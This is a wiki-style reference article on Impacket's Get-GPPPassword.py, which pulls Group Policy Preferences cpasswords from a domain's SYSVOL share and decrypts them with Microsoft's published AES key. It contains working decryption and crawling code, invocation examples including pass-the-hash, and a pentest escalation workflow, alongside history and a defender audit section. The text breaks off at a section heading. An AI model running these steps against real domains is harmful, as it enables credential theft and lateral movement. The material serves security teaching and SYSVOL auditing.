


title: "Get-GPPPassword.py"
script: "examples/Get-GPPPassword.py"
category: "Recon and Enumeration"
status: "Published"
protocols:
  - SMB
  - MS-SMB2
ms_specs:
  - MS-SMB2
  - MS-GPOL
  - MS-GPPREF
mitre_techniques:
  - T1552.006
  - T1003.008
  - T1550.002
  - T1021.002
  - T1078.002
auth_types:
  - NTLM
  - Kerberos
  - Pass the Hash
cve:
  - CVE-2014-1812
security_bulletin: MS14-025
tags:
  - impacket
  - impacket/examples
  - category/recon_and_enumeration
  - status/published
  - protocol/smb
  - protocol/ms-smb2
  - ms-spec/ms-smb2
  - ms-spec/ms-gpol
  - ms-spec/ms-gppref
  - technique/gpp_cpassword_recovery
  - technique/sysvol_carving
  - technique/credentials_from_group_policy
  - technique/aes_key_published_by_microsoft
  - mitre/T1552.006
  - mitre/T1003.008
  - mitre/T1550.002
  - mitre/T1021.002
  - mitre/T1078.002
  - cve/2014-1812
  - security-bulletin/MS14-025
aliases:
  - Get-GPPPassword
  - gpp-password
  - gpp-cpassword
  - sysvol-credential-hunt
  - groups-xml-cpassword
  - ms14-025


# Get-GPPPassword.py

> **One line summary:** Classic Active Directory credential recovery tool that connects to SYSVOL as any authenticated domain user, recursively carves XML files from Group Policy Preferences (GPP) folders (`Groups.xml`, `ScheduledTasks.xml`, `Services.xml`, `DataSources.xml`, `Printers.xml`, `Drives.xml` in the `Preferences\<Type>\<Filename>.xml` hierarchy under each `{GUID}` Group Policy Object directory), identifies XML elements whose `cpassword` attribute is non-empty, and decrypts those cpasswords using the AES-256 key that **Microsoft published publicly in MSDN in 2012** (documented in `[MS-GPPREF]` section 2.2.1.1.4), yielding cleartext credentials that any authenticated user can read; the technique was disclosed around 2012 by Emilien Girault (`@emiliengirault`), formally addressed by Microsoft in **MS14-025 (CVE-2014-1812)** in May 2014 which removed the ability to create new GPP passwords but **did not remove existing cpasswords from legacy SYSVOL deployments**; the tool is authored by **Rémi GASCOU (`@podalirius_`)** and **Charlie Bromberg (`@_nwodtuhs`, "ShutdownRepo")** with BytesIO streaming logic inspired by a previous PR from **`@mxrch`**, contributed upstream via PR #1064 against Impacket; its key operational feature is **streaming file access via BytesIO rather than mounting the SYSVOL share** which lets the tool run from unprivileged containers and avoids the SMB mount events that mount based tools generate; despite Microsoft's 2014 fix preventing new password creation, GPP cpassword recovery remains operationally valuable in 2026 because many AD environments have never cleaned legacy SYSVOL deployments and the credentials are frequently for service accounts with elevated access that may still work decades later; **continues Recon and Enumeration at 13 of 17 articles (76%), with four stubs remaining (`getArch.py`, `GetLAPSPassword.py`, `machine_role.py`, and one more to confirm) before the category closes as the 13th and final complete category for the wiki at 100% completion**.

| Field | Value |
|:---|:---|
| Script | `examples/Get-GPPPassword.py` |
| Category | Recon and Enumeration |
| Status | Published |
| Authors | Rémi GASCOU (`@podalirius_`, "Podalirius") and Charlie Bromberg (`@_nwodtuhs`, "ShutdownRepo"); BytesIO streaming logic from earlier work by `@mxrch` |
| Upstream contribution | Impacket PR #1064 |
| Original standalone home | `https://github.com/ShutdownRepo/Get-GPPPassword` (now discontinued since the tool shipped in Impacket) |
| Primary protocol | SMB for SYSVOL share access; XML parsing for Groups.xml and similar files |
| Primary Microsoft specifications | `[MS-SMB2]` SMB 2 and 3 Protocol; `[MS-GPOL]` Group Policy Core Protocol; `[MS-GPPREF]` Group Policy Preferences (contains the AES key and XML schema) |
| Security bulletin | **MS14-025** (May 2014) |
| CVE | **CVE-2014-1812** |
| MITRE ATT&CK techniques | T1552.006 Unsecured Credentials: Group Policy Preferences; T1003.008 OS Credential Dumping: /etc/passwd and /etc/shadow (conceptually similar pattern of credential in file disclosure); T1550.002 Use Alternate Authentication Material: Pass the Hash; T1021.002 Remote Services: SMB/Windows Admin Shares; T1078.002 Valid Accounts: Domain Accounts |
| Authentication | NTLM, Kerberos (`-k`), Pass the Hash (`-hashes`) - requires any authenticated domain user |
| Privilege required | Any authenticated domain user (SYSVOL default permissions include Authenticated Users:Read) |
| Known AES key | `4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b` (published by Microsoft in MSDN/MS-GPPREF) |
| Null IV | All zeros (published in the same spec) |
| Default share | `SYSVOL` |
| Default base directory | The domain FQDN (determined at runtime) |


## Prerequisites

This article assumes familiarity with:

- [`smbclient.py`](../05_smb_tools/smbclient.md) for SMB connection and share navigation basics. Get-GPPPassword uses the same underlying SMB primitives but with BytesIO streaming rather than file operations.
- [`secretsdump.py`](../03_credential_access/secretsdump.md) for the credential dumping context. Get-GPPPassword operates in the credential dumping family but requires NO admin credentials, only authenticated domain user - a radically lower bar.
- Active Directory Group Policy basics: GPOs stored in SYSVOL under `\\<domain>\SYSVOL\<domain>\Policies\{GUID}\`, with each policy composed of machine side (`Machine\`) and user side (`User\`) components.
- **Group Policy Preferences vs Group Policy**: GPP is a Vista era extension that added features for setting local accounts, scheduled tasks, services, printers, drive mappings, and data sources with optional credentials. Traditional GP didn't have credential carrying features; GPP introduced them.
- XML document parsing concepts (DOM traversal, attribute reading). The tool uses `xml.dom.minidom` from the Python standard library.
- AES-256-CBC decryption. The tool uses `pycryptodome` for the actual decryption.
- **MS14-025** as the relevant security bulletin. The May 2014 patch removed the UI for creating new GPP passwords but explicitly did not remove existing stored passwords from SYSVOL.


## What it does

`Get-GPPPassword.py` authenticates to a target domain controller as any domain user, connects to the SYSVOL share, walks the Group Policy directory tree, reads all XML files in memory (via BytesIO streams rather than mounting the share), extracts cpassword values from the XML, decrypts them using the Microsoft published AES-256 key, and prints the resulting cleartext credentials.

### Default invocation

```text
$ python Get-GPPPassword.py 'CORP.LOCAL/john:Passw0rd@DC01.corp.local'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Connecting to DC01.corp.local using credentials of user john
[*] Looking up SYSVOL folder on \\DC01.corp.local\SYSVOL\corp.local\
[*] Crawling Group Policy folders for XML files

[+] Found GPP credential file: Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
    [+] File      : \\DC01.corp.local\SYSVOL\corp.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
    [+] Changed   : 2019-03-15 14:22:18
    [+] Username  : LocalAdmin
    [+] Cpassword : j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
    [+] Password  : SuperSecret123!

[+] Found GPP credential file: Policies\{82B3CB24-7E57-4F1B-9B49-90E8C48B1F4F}\MACHINE\Preferences\ScheduledTasks\ScheduledTasks.xml
    [+] File      : \\DC01.corp.local\SYSVOL\corp.local\Policies\{82B3CB24-7E57-4F1B-9B49-90E8C48B1F4F}\MACHINE\Preferences\ScheduledTasks\ScheduledTasks.xml
    [+] Changed   : 2018-11-02 09:14:55
    [+] Username  : svc-backup
    [+] Cpassword : lVW7NjD+yXmQHQOb6MNLbqB9GLv2DB+9qPIXDomAXeNyA8eUbqE7FvDA
    [+] Password  : Backup!2018
```

Each credential shows:
- **File**: the SYSVOL path where the cpassword was found.
- **Changed**: when the GPP entry was last modified (preserved in the XML as an attribute).
- **Username**: the account the credential is for (often `LocalAdmin`, `svc-*`, backup accounts, etc.).
- **Cpassword**: the original AES-encrypted base64 value from the XML.
- **Password**: the decrypted cleartext.

The `Changed` timestamp is diagnostically important: credentials last modified in 2014 or earlier are pre MS14-025 era and have been sitting unfixed for 10+ years. Credentials modified after May 2014 indicate either unpatched GPP extensions (some third party products continued writing cpasswords), or the deployment never removed the legacy entries after patching.

### Typical file types

GPP writes cpasswords in six XML file types, corresponding to the six GPP extension features:

| File | Purpose | Password use |
|:---|:---||
| `Groups.xml` | Local users and groups | Local account password |
| `ScheduledTasks.xml` | Scheduled task configuration | Credentials the task runs under |
| `Services.xml` | Service configuration | Account a service runs as |
| `DataSources.xml` | ODBC data source configuration | Database credentials |
| `Printers.xml` | Printer configuration | Printer share access credentials |
| `Drives.xml` | Drive mappings | Credentials for mapped network drives |

Get-GPPPassword.py searches all six types. Most commonly found in real environments: `Groups.xml` (creating local admin accounts on every machine in the OU) and `Services.xml` (service account passwords).

### What the XML looks like

Example `Groups.xml` with a cpassword (prior to MS14-025 removal of the UI):

```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}"
        name="LocalAdmin"
        image="2"
        changed="2019-03-15 14:22:18"
        uid="{DA07EB44-7D0B-4D2A-A37C-6A9F9B4E2A1A}">
    <Properties action="C"
                fullName=""
                description="Local Administrator"
                cpassword="j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw"
                changeLogon="0"
                noChange="0"
                neverExpires="1"
                acctDisabled="0"
                subAuthority=""
                userName="LocalAdmin"/>
  </User>
</Groups>
```

The `cpassword` attribute on the `Properties` element is the encrypted credential. Get-GPPPassword extracts this via DOM query, base64 decodes it, and decrypts with the Microsoft AES key.

### The streaming design decision

A core design point is that Get-GPPPassword.py **does not mount the SYSVOL share**. Instead, it opens each XML file as a `BytesIO` stream via `smb.getFile(share, path, fh.write)`:

```python
fh = BytesIO()
self.smb.getFile(self.share, filename, fh.write)
filecontent = fh.getvalue().decode(encoding).rstrip()
# Parse filecontent as XML
```

This design advantage matters because:

1. **Works from unprivileged containers** (Docker, restricted execution environments) where SMB mounting requires root/admin or CAP_SYS_ADMIN capability.
2. **Avoids SMB mount events** in Windows Event Log (Event 5140 detailed file share access is still generated for the file reads, but no mount level artifacts).
3. **Lower footprint**: no persistent mount point, no cleanup required if the tool is interrupted.
4. **Predictable operation across platforms**: the underlying Impacket SMB code works identically on Linux, macOS, Windows.

Per the author's blog: "opening the files in streams instead of mounting shares allows for running the script from unprivileged containers." This operational consideration is why Get-GPPPassword.py is preferred over shell loops with `smbclient` or `mount.cifs`.


## Why it exists

### The technique history

**2012**: Emilien Girault (`@emiliengirault`) publishes the first known analysis explaining that Microsoft stores GPP passwords encrypted with a publicly known AES key. The key is documented in Microsoft's own MSDN reference for `[MS-GPPREF]`, section 2.2.1.1.4. The "encryption" provides zero security because the key is public; anyone who knows the key can decrypt any cpassword from any SYSVOL.

**2012-2014**: the technique circulates in penetration testing community. Tools like `gpp-decrypt` (Ruby, shipped in Kali), `Get-GPPPassword.ps1` (PowerShell, PowerSploit), and `darryllane/gpp` (Python) implement the decryption. Any authenticated domain user can enumerate all GPP passwords deployed in their organization.

**May 2014**: Microsoft publishes **MS14-025** (CVE-2014-1812). The patch:
- **Removed the UI** for creating new GPP credential entries in Group Policy Management Console.
- **Did NOT remove** existing cpasswords from SYSVOL.
- **Did NOT change** the key or encryption scheme.
- Explicitly told administrators: "review your SYSVOL for existing cpasswords and remove them manually."

The second and third points matter operationally. Years later, many organizations still have unpatched cpasswords in SYSVOL because administrators never performed the manual cleanup.

**2018-2019**: Rémi GASCOU (`@podalirius_`) and Charlie Bromberg (`@_nwodtuhs`) write the `Get-GPPPassword.py` script originally as a standalone tool in ShutdownRepo's GitHub. The tool features BytesIO streaming (inspired by earlier work by `@mxrch`).

**2022**: Get-GPPPassword.py is contributed upstream to Impacket via PR #1064 and becomes an official example. The ShutdownRepo standalone is marked discontinued in favor of the Impacket version.

**2026** (today): the technique still works against legacy SYSVOLs. Penetration testing engagements in 2025 and 2026 continue to find GPP cpasswords in environments that haven't cleaned up since the MS14-025 patch.

### The public AES key

The "encryption" Microsoft chose for cpasswords is AES-256-CBC with:

- **Key**: `4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b` (32 bytes, hex).
- **IV**: 16 zero bytes.
- **Padding**: PKCS#7.
- **Input**: base64 encoded ciphertext with Microsoft specific padding (requires padding correction before base64 decode).

The key is published in `[MS-GPPREF]` specifically because Microsoft's technical documentation policy requires disclosing cryptographic material used in protocols. They published it for documentation purposes, which simultaneously made it usable for decryption by any client.

This is a textbook example of **"security through obscurity"** failing: the obscurity was never meaningful because Microsoft's own documentation disclosed the key. The cpassword "encryption" served only to avoid cleartext password appearance in XML files while allowing any GP client to decrypt them.

### Why the attack still works in 2026

Operational reasons the technique remains valuable despite being 12+ years old:

1. **SYSVOL cleanup is manual**. MS14-025 did not automate removal. Many organizations never performed the cleanup.
2. **GPP credentials often don't expire**. Service accounts and local admins set via GPP often outlive the people who set them.
3. **Credential reuse is endemic**. A service account password set in 2012 may still be in use in 2026 unchanged. Even if the GPP entry was removed, the account and its password may still be valid.
4. **Local admin accounts deployed via GPP were often identical across the domain**. Finding one reveals the password for every machine that received the same policy.
5. **Deleted GPOs can leave orphaned XML files**. Removing a GPO from the management console doesn't always delete its SYSVOL folder; legacy XMLs can persist as "tombstones" with still decryptable cpasswords.
6. **Backup SYSVOLs and replication artifacts** may have historical XMLs that the live SYSVOL no longer has.
7. **Third party GPP writing tools** existed and some continued writing cpasswords after MS14-025. Not all GPP era XMLs are from the Microsoft GPMC.

For a modern penetration tester, Get-GPPPassword.py is a 30-second check with frequent high value results. For a modern defender, the question to ask is "when did we last audit SYSVOL for cpassword?" - and for many organizations the answer is "never."

### Why ship it in Impacket

Prior to the PR #1064 contribution, the Impacket toolkit lacked a direct GPP decryption tool. Operators had to:

- Mount SYSVOL with `smbclient` or `mount.cifs` and run separate decryption scripts.
- Use PowerShell-based `Get-GPPPassword.ps1` (requires a Windows host).
- Use the standalone ShutdownRepo version (not packaged in Kali, had to install separately).

Integrating Get-GPPPassword.py into Impacket standardized the tool across Linux pentesting distributions (Kali, Parrot), simplified the workflow to a single command, and benefited from Impacket's maintained SMB implementation. The streaming approach was a clean operational improvement over mount based tools.

### MS14-025 as defensive history

The May 2014 Microsoft patch is a study in retrospective vulnerability management:

- **Initial disclosure (2012)**: two years before the official Microsoft fix. The community knew; Microsoft declined to patch.
- **Scope of fix**: the UI was removed, preventing new cpasswords. Existing cpasswords were not remediated automatically.
- **Customer guidance**: "manually review and clean up SYSVOL." Few organizations did so systematically.
- **Ongoing exposure**: 12 years after the fix, the technique still has high success rates in real environments.

The cpassword story is frequently cited as a case study in why "documentation based security" fails and why security fixes must include automatic remediation where possible, not just prevention of new exposure.


## Protocol theory

### SYSVOL share structure

SYSVOL is a default share on every domain controller at `C:\Windows\SYSVOL\sysvol\<domain FQDN>\`. It's replicated across all DCs via DFSR (or FRS in legacy environments). Structure:

```
\\<dc>\SYSVOL\<domain>\
├── Policies\
│   ├── {31B2F340-016D-11D2-945F-00C04FB984F9}\     (Default Domain Policy)
│   │   ├── MACHINE\
│   │   │   ├── Microsoft\Windows NT\SecEdit\GptTmpl.inf
│   │   │   └── Preferences\
│   │   │       ├── Groups\Groups.xml           <-- GPP target
│   │   │       ├── ScheduledTasks\ScheduledTasks.xml  <-- GPP target
│   │   │       ├── Services\Services.xml       <-- GPP target
│   │   │       └── ...
│   │   ├── USER\
│   │   │   └── Preferences\
│   │   │       └── ... (same file types, User-side)
│   │   └── GPT.INI
│   ├── {6AC1786C-016F-11D2-945F-00C04FB984F9}\     (Default Domain Controllers Policy)
│   └── ... (many more GPO GUID folders)
└── scripts\
    └── ... (netlogon replacement share contents)
```

SYSVOL permissions by default include:
- **Authenticated Users**: Read
- **Server Operators**: Read
- **Administrators**: Full Control
- **Enterprise Domain Controllers**: Full Control

The `Authenticated Users: Read` is the critical entry that makes Get-GPPPassword.py work for any domain user. Any user who can log into a workstation can enumerate all GPP credentials in the domain.

### The crawl strategy

Get-GPPPassword.py performs a breadth-first directory traversal starting from the SYSVOL root:

```python
def search_credentials_in_shares(self, shares):
    for share in shares:
        if share['shi1_type'] & 0x7FFFFFFF == 0:  # disk share type
            files = self.find_files_on_share(share_name=share['shi1_netname'])
            for filename in files:
                if self.is_gpp_file(filename):
                    results = self.parse_gpp_file(filename)
                    self.print_results(results)
```

The file matching pattern looks for XML files in directories matching the GPP preferences structure:

```python
def is_gpp_file(self, filename):
    gpp_files = ['Groups.xml', 'ScheduledTasks.xml', 'Services.xml',
                 'DataSources.xml', 'Printers.xml', 'Drives.xml']
    for gpp_name in gpp_files:
        if filename.endswith('\\' + gpp_name):
            return True
    return False
```

Files that don't match the GPP file names are skipped. The traversal is recursive but filtered - doesn't read every XML, only the ones that might contain cpasswords.

### The XML parsing logic

Once a GPP file is identified and read into memory, DOM parsing extracts cpasswords:

```python
def parse_gpp_file(self, filename, filecontent):
    xmldoc = xml.dom.minidom.parseString(filecontent)
    results = []
    
    # Find all elements with cpassword attribute
    for topnode in xmldoc.documentElement.childNodes:
        if not isinstance(topnode, xml.dom.minidom.Element):
            continue
        
        # Different file types have different XML structures
        # For Groups.xml:
        #   <User><Properties cpassword="..." userName="..."/></User>
        # For ScheduledTasks.xml:
        #   <Task><Properties cpassword="..." runAs="..."/></Task>
        # For Services.xml:
        #   <NTService><Properties cpassword="..." accountName="..."/></NTService>
        # etc.
        
        task_nodes = [c for c in topnode.childNodes 
                      if isinstance(c, xml.dom.minidom.Element)]
        for task in task_nodes:
            for property in task.childNodes:
                if (isinstance(property, xml.dom.minidom.Element) 
                    and property.tagName == 'Properties'):
                    cpassword = read_or_empty(property, "cpassword")
                    if cpassword:
                        username = determine_username(property)  # per file type
                        changed = read_or_empty(property.parentNode, "changed")
                        password = self.decrypt_password(cpassword)
                        results.append({
                            "file": filename,
                            "changed": changed,
                            "username": username,
                            "cpassword": cpassword,
                            "password": password
                        })
    return results
```

The username attribute varies by file type: `userName` in Groups.xml, `runAs` in ScheduledTasks.xml, `accountName` in Services.xml, etc. The tool handles each type's specific XML structure.

### The decryption

Given a base64 cpassword string, decryption follows these steps:

```python
def decrypt_password(self, cpassword):
    # Microsoft's published AES-256 key for GPP cpasswords
    key = unhexlify("4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b")
    
    # base64 padding correction (Microsoft encodes without padding sometimes)
    cpassword_padded = cpassword + "=" * ((4 - len(cpassword) % 4) % 4)
    
    # base64 decode
    ciphertext = b64decode(cpassword_padded)
    
    # AES-256-CBC decrypt with zero IV
    cipher = AES.new(key, AES.MODE_CBC, IV=b"\x00" * 16)
    plaintext = cipher.decrypt(ciphertext)
    
    # Strip PKCS#7 padding
    plaintext = plaintext[:-plaintext[-1]]
    
    # Result is UTF-16LE encoded
    return plaintext.decode('utf-16-le')
```

The result is the cleartext password. No brute forcing, no hash cracking - pure deterministic decryption with a known key.

### The key disclosure paradox

Microsoft's `[MS-GPPREF]` section 2.2.1.1.4 states (paraphrased to avoid direct quotation):

> Passwords stored in Group Policy Preferences XML files are encrypted using AES-256 with the following published encryption key [...32-byte key value...]. This key is documented here to allow interoperability with third party Group Policy Preference clients.

The documentation rationale (interoperability) was real: Microsoft wanted third party GP clients to be able to process the XMLs. But the resulting "encryption" provided no security, since every authenticated user in the domain could read the XMLs and decrypt them using the published key.

This is different from normal encryption scenarios where key secrecy is the security property. In GPP, the key was public by design. The "encryption" was really just encoding, obfuscating the password from casual inspection of the XML file. Against a determined attacker with the published key, it was ineffective.

Microsoft's own subsequent guidance acknowledged this: the recommended approach was never "keep the key secret" (which was impossible) but "don't put passwords in GPP" (which MS14-025 enforced for new deployments).

### Why MS14-025 didn't include automatic cleanup

Automatic removal of cpasswords would have required the Group Policy client to rewrite SYSVOL files, which has implications:

- **Replication storms**: rewriting many XMLs across many DCs would trigger heavy DFSR replication.
- **Audit trail loss**: the original configuration would be lost.
- **Backup/archive reliance**: some organizations intentionally preserved old configurations for audit.
- **Access control assumptions**: auto rewriting SYSVOL from GP client required elevated permissions.

Microsoft chose to fix forward (no new cpasswords) but not retroactively (no cleanup of existing). The tradeoff was stability and administrative control vs security. Twelve years later, the security cost is still being paid in ongoing penetration test findings.


## How the tool works internally

### Imports

```python
import os, sys, argparse, logging, re
from io import BytesIO
import xml.dom.minidom
import chardet
from Cryptodome.Cipher import AES
from base64 import b64decode
from binascii import unhexlify

from impacket import version
from impacket.examples import logger
from impacket.examples.utils import parse_identity
from impacket.smbconnection import SMBConnection, SMB2_DIALECT_002, SMB2_DIALECT_21, SMB_DIALECT, SessionError
```

Key imports:
- `xml.dom.minidom` - Python standard library XML parser.
- `chardet` - character encoding detection (SYSVOL XMLs may be UTF-8, UTF-16, or other encodings depending on how they were written).
- `Cryptodome.Cipher.AES` - from pycryptodome, for AES-256-CBC decryption.
- `impacket.smbconnection.SMBConnection` - SMB client.

### Main flow

```python
def main():
    options = parser.parse_args()
    domain, username, password, address = parse_identity(options.target)
    
    gppp = GetGPPasswords(address, username, password, domain, ...)
    gppp.connect()
    gppp.list_shares()
    gppp.find_credentials_in_shares()
    gppp.close()
```

### Shares enumeration

Get-GPPPassword doesn't assume the share name - it enumerates all shares and filters for SYSVOL typical names:

```python
def list_shares(self):
    shares = self.smb.listShares()
    for share in shares:
        share_name = share['shi1_netname'][:-1]  # strip null terminator
        if share_name.upper() == 'SYSVOL':
            self.target_shares.append(share_name)
    # Also adds any user-specified share via -share flag
```

The `-share` flag lets operators specify alternative shares (useful for unusual SYSVOL replication configurations or for scanning other shares that might contain GPP-like content).

### Recursive file discovery

```python
def find_files_on_share(self, share_name, base_path=''):
    results = []
    try:
        entries = self.smb.listPath(share_name, base_path + '*')
    except SessionError as e:
        return results
    
    for entry in entries:
        filename = entry.get_longname()
        if filename in ['.', '..']:
            continue
        
        full_path = base_path + filename
        if entry.is_directory():
            results.extend(self.find_files_on_share(
                share_name, full_path + '\\'
            ))
        elif filename.lower().endswith('.xml'):
            results.append(full_path)
    
    return results
```

Recursive descent into every directory, collecting all `.xml` paths. Could be made smarter (only descend into `Policies\`, skip `scripts\`) but the tool errs on completeness over speed.

### File retrieval via BytesIO

```python
def parse(self, filename):
    filename_backslash = filename.replace('/', '\\')
    fh = BytesIO()
    try:
        self.smb.getFile(self.share, filename_backslash, fh.write)
    except SessionError as e:
        logging.error(e)
        return []
    
    output = fh.getvalue()
    encoding = chardet.detect(output)["encoding"]
    if encoding is None:
        fh.close()
        return []
    
    filecontent = output.decode(encoding).rstrip()
    return self.parse_gpp_xml(filename, filecontent)
```

The BytesIO streaming is the core design decision: no filesystem mount, no temporary files, all in memory.

### The character encoding detection

SYSVOL XMLs have inconsistent encodings historically: some are UTF-8 with BOM, some UTF-16LE with BOM, some UTF-8 without BOM. Python's `xml.dom.minidom` is strict about encoding declarations vs actual bytes. `chardet` detects the actual encoding from the byte content, letting the tool handle any encoding.

### XML parsing variants

Different GPP file types have different top level elements:

```python
def parse_gpp_xml(self, filename, filecontent):
    xmldoc = xml.dom.minidom.parseString(filecontent)
    
    # Determine file type from root element
    root = xmldoc.documentElement
    results = []
    
    if root.tagName == 'Groups':
        # Groups.xml: <Groups><User><Properties cpassword userName/></User>[<Group>...]/Groups>
        for user_node in root.getElementsByTagName('User'):
            for prop in user_node.getElementsByTagName('Properties'):
                cpass = read_or_empty(prop, 'cpassword')
                if cpass:
                    results.append(build_result(prop, cpass, 'userName'))
    
    elif root.tagName == 'ScheduledTasks':
        # ScheduledTasks.xml: <ScheduledTasks><Task><Properties cpassword runAs/></Task></ScheduledTasks>
        for task_node in root.getElementsByTagName('Task'):
            for prop in task_node.getElementsByTagName('Properties'):
                cpass = read_or_empty(prop, 'cpassword')
                if cpass:
                    results.append(build_result(prop, cpass, 'runAs'))
    
    elif root.tagName == 'NTServices':
        # Services.xml: <NTServices><NTService><Properties cpassword accountName/></NTService></NTServices>
        ...
    
    elif root.tagName == 'DataSources':
        # DataSources.xml: similar pattern
        ...
    
    elif root.tagName == 'Printers':
        ...
    
    elif root.tagName == 'Drives':
        ...
    
    return results
```

Each file type has its own element hierarchy and its own username attribute name. The tool handles each correctly.

### What the tool does NOT do

- Does NOT create or modify GPP files. Read only enumeration.
- Does NOT attempt to clean up or remove discovered cpasswords. That's a manual defensive task.
- Does NOT try to authenticate with the decrypted credentials. Discovery only; use other tools for credential validation.
- Does NOT handle LAPS passwords (those are LDAP-based, not GPP-based). Use `GetLAPSPassword.py` for that.
- Does NOT find secrets other than cpasswords in SYSVOL (certificates, scripts with hardcoded passwords, etc.). Some manual review still needed for comprehensive SYSVOL audit.
- Does NOT bypass the SYSVOL read ACL. If Authenticated Users: Read is removed (rare but possible in hardened environments), the tool fails.
- Does NOT decode cpasswords that use an alternative key. Microsoft only ever used one AES key for GPP; no key rotation exists. But custom/third party GP products might use different keys.
- Does NOT parse GPO metadata (GPT.INI, GPO name, target OUs). For that use tools like `PowerView Get-GPO` or `bloodhound-python`.
- Does NOT scan multiple domain controllers in parallel. One DC per invocation.
- Does NOT preserve or forward the cpassword discovery over time. Run once, results to stdout; no built in history.


## Practical usage

### Basic invocation

```bash
python Get-GPPPassword.py 'CORP.LOCAL/john:Passw0rd@DC01.corp.local'
```

Connects to DC01 as user john in CORP.LOCAL domain, crawls SYSVOL, prints all found cpasswords with decryption.

### With NTLM hash instead of password

```bash
python Get-GPPPassword.py -hashes :NTHASH 'CORP.LOCAL/john@DC01.corp.local'
```

Classic pass the hash. Useful when you have only an NT hash (from secretsdump, LSASS dump, etc.) and want to enumerate SYSVOL.

### With Kerberos authentication

```bash
# Get a TGT
getTGT.py 'CORP.LOCAL/john:Passw0rd'
export KRB5CCNAME=john.ccache

# Use the TGT
python Get-GPPPassword.py -k -no-pass 'CORP.LOCAL/john@DC01.corp.local' -dc-ip 10.10.10.10
```

Kerberos friendly variant. Good for environments where NTLM is disabled or restricted.

### Targeting a specific file

```bash
python Get-GPPPassword.py 'CORP.LOCAL/john:Passw0rd@DC01.corp.local' \
    -xmlfile 'Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml'
```

Useful for targeted reanalysis or when you've already identified specific files from another enumeration pass.

### Custom share or base directory

```bash
# Some environments mirror SYSVOL to other shares
python Get-GPPPassword.py 'CORP.LOCAL/john:Passw0rd@FILESERVER01' \
    -share GPBackup -base-dir '\\FILESERVER01\GPBackup\corp.local\'
```

The `-share` and `-base-dir` flags support non-standard SYSVOL configurations. Useful when SYSVOL has been replicated or backed up to file servers.

### Integration in a full pentest workflow

```bash
# Phase 1: initial domain foothold (any means)
# ... obtain domain user credentials ...

# Phase 2: GPP password hunt (30 seconds, often high value)
python Get-GPPPassword.py 'CORP.LOCAL/foothold:Passw0rd@DC01.corp.local' > gpp_creds.txt

# Phase 3: evaluate discovered credentials
cat gpp_creds.txt | grep -A 5 "Password"
# If credentials found, test with secretsdump or psexec

# Phase 4: test each discovered credential
for line in $(grep "Username" gpp_creds.txt | awk '{print $NF}'); do
    # extract corresponding password, test against targets
    ...
done
```

Phase 2 is frequently the moment of major privilege escalation in an engagement. A discovered service account password for a highly privileged service often leads directly to domain admin.

### SYSVOL audit for defenders

```bash
# Blue team use: scan your own SYSVOL for legacy cpasswords
python Get-GPPPassword.py 'CORP.LOCAL/auditor:Passw0rd@DC01.corp.local' 2>&1 | tee sysvol_audit_2026Q2.txt

# If results found:
# - Rotate the passwords for all discovered accounts
# - Remove the GPP XML files containing cpasswords
# - Verify via follow up Get-GPPPassword run that SYSVOL is clean
```

This is exactly what MS14-025's customer guidance instructed but often not performed. Modern defenders running this check today frequently find surprising results.

### Monitoring discovered credential usage

After running Get-GPPPassword.py and finding credentials, monitor them:

- **Set up alerts** for any authentication attempts using the discovered account names.
- **Disable the accounts** if they're no longer needed (often the case for GPP-deployed local admin accounts from legacy configurations).
- **Rotate the passwords** if accounts are still in use.
- **Add the discovered passwords to a "known compromised passwords" list** to block reuse.

### Key flags

| Flag | Meaning |
|:---|:---|
| `target` (positional) | `[[domain/]username[:password]@]<dc-host>` standard Impacket target. |
| `-xmlfile` | Target a specific XML file instead of crawling. |
| `-share` | Override default SYSVOL share name. |
| `-base-dir` | Override base directory for crawling. |
| `-hashes LMHASH:NTHASH` | NT hash auth (pass the hash). |
| `-no-pass` | Skip password prompt (for -k). |
| `-k` | Kerberos authentication. |
| `-aesKey` | AES key for Kerberos. |
| `-dc-ip` | Specify KDC IP. |
| `-target-ip` | Resolve target hostname to specific IP. |
| `-port` | Override SMB port (default 445). |
| `-debug` | Verbose debug output. |
| `-ts` | Timestamp log lines. |


## What it looks like on the wire

### SMB session establishment

```text
